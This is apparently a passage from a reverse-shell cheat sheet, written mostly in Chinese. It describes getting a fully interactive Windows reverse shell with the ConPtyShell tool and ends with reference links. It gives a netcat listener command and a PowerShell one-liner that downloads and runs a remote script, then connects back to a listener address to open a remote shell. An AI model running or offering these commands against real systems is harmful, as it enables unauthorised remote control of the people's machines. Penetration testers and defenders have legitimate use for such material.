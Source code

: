 ## Windows 上的完全交互式反向 shell

Windows 中伪控制台 (ConPty) 的引入大大改进了 Windows 处理终端的方式。

ConPtyShell 使用函数CreatePseudoConsole()。此功能自 Windows 10 / Windows Server 2019 版本 1809（内部版本 10.0.17763）起可用。

服务器端：

```
stty raw -echo; (stty size; cat) | nc -lvnp 3001
```

客户端:

```
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 3001
```

参考文献 https://github.com/antonioCoco/ConPtyShell/blob/master/Invoke-ConPtyShell.ps1

## References

* [Reverse Bash Shell One Liner](https://security.stackexchange.com/questions/166643/reverse-bash-shell-one-liner)
* [Pentest Monkey - Cheat Sheet Reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [Spawning a TTY Shell](http://netsec.ws/?p=337)